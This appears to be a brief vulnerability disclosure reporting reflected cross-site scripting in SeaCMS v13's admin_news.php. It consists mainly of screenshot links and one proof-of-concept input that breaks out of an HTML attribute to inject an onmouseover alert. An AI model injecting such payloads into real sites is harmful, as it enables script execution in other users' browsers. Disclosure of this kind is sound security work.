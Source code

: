 

<font style="color:rgb(31, 35, 40);">filename: \SeaCMS_13\Upload\7hwcvn/admin_news.php</font>

<font style="color:rgb(31, 35, 40);"></font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">Seacms v13 is vulnerable to Cross Site Scripting (XSS) </font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);"></font>

---

<h1 id="verification"><font style="color:rgb(31, 35, 40);">Verification</font></h1>
![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742025698690-215734a0-ca0b-41a2-a8ea-edb2da075b38.png)







![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742025739620-03c79d02-993f-4b8b-8c9c-5439340a0fbc.png)





<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">input " onmouseover=alert(0) type=" </font>

<font style="color:rgb(0, 0, 0);background-color:rgb(252, 252, 252);">  
</font>![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742025812798-6ea3f02e-6ec7-43fd-8ae3-3ea0cecf555d.png)



![](https://cdn.nlark.com/yuque/0/2025/png/48232492/1742025828187-510884e8-ac54-4c4b-b733-a74cc0ff0745.png)

  
 

